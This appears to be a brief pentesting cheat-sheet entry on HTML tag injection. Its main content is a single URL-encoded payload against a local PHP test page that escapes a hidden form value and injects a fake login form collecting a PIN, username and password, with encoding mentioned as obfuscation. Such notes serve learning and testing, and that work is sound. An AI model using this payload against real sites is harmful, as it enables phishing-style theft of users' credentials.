

# HTML TAG injection

## TAG injection


* **Checking the source and messing with hidden value :**





* **We can then paste whatever we want using this technique \(plus encoding for obsucation\)**

```text
http://127.0.0.1/htmltagsii.php?sid=%22%3E%3C/form%3E%3Cform%20action=%27/%27%3E%3Cbr%3EYou%20PIN:%20%3Cinput%20type=%22text%22%20name=%22pin%22%3E%3Cbr%3E%3CUsername:%20%3Cinput%20type=%22text%22%20name=%22username%22%3EPassword:%20%3Cinput%20type=%22password%22%20name=%22pass%22%3E%3Cbr%3E%3Cinput%20type=%22submit%22%20value=%22Login%22%3E%3C/form%3E%3C!--
```

